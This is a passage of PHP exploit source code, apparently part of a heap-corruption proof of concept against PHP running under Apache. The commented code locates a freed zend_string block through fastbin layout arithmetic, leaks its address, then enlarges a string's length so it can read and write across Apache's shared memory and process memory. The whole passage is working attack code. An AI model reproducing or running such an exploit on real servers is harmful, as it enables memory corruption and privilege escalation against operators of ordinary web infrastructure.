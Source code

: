 	# Assuming the allocation was contiguous, memory looks like this, with
	# 0x70-sized fastbins:
	# 	[zend_string:abc]
	# 	[zend_string:protector]
	# 	[FREE#1]
	# 	[FREE#2]
	# Therefore, the address of the 2nd free block is in the first 8 bytes
	# of the first block: 0x70 * 2 - 24
	$address = str2ptr($this-&gt;abc, 0x70 * 2 - 24);
	# The address we got points to FREE#2, hence we're |block| * 3 higher in
	# memory
	$address = $address - 0x70 * 3;
	# The beginning of the string is 24 bytes after its origin
	$address = $address + 24;
	o('Address of $abc: 0x' . dechex($address));
	o('');

	# Compute the size required for our string to include the whole SHM and
	# apache's memory region
	$distance = 
		max($addresses['apache'][1], $addresses['shm'][1]) -
		$address
	;
	$x-&gt;d = $distance;

	# We can now read/write in the whole SHM and apache's memory region.
